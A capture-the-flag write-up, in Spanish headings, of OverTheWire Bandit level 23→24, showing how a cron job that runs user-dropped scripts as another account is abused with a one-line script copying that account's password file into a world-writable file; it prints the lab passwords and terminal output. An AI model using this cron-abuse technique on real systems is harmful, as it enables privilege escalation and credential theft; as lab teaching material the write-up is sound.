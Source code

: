 ### Bandit Level 23→ Level 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución
```
bandit23@bandit:~$ ls /etc/cron.d cronjob_bandit15_root cronjob_bandit22 cronjob_bandit24 e2scrub_all sysstat cronjob_bandit17_root cronjob_bandit23 cronjob_bandit25_root otw-tmp-dir bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null 
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh #!/bin/bash
myname=$(whoami) 
cd /var/spool/$myname/foo 
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
timeout -s 9 60 ./$i 
fi
rm -f ./$i 
fi 
done
bandit23@bandit:~$
bandit23@bandit:~$ mkdir /tmp/kd
bandit23@bandit:~$ cd /tmp/kd bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/kd/password bandit23@bandit:/tmp/kd$ chmod +x script.sh bandit23@bandit:/tmp/kd$ touch password bandit23@bandit:/tmp/kd$ chmod 666 password bandit23@bandit:/tmp/kd$ ls –la
total 92
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . drwxrwx-wt 1957 root root 81920 Sep 4 01:51 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password 
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh 
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la total 92
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . drwxrwx-wt 1957 root root 81920 Sep 4 01:53 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ date Sun Sep 4 01:54:12 AM UTC 2022 bandit23@bandit:/tmp/kd$ ls -la total 96 drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . drwxrwx-wt 1957 root root 81920 Sep 4 01:53 ..
-rw-rw-rw- 1 bandit23 bandit23 33 Sep 4 01:54 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh 
bandit23@bandit:/tmp/kd$ cat password VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar bandit23@bandit:/tmp/kd$
```
## Notas adicionales



## Referencias
- [Secure Shell (SSH) on Wikipedia](https://en.wikipedia.org/wiki/Secure Shell)
- [How to use SSH on wikiHow](https://www.wikihow.com/Use-SSh)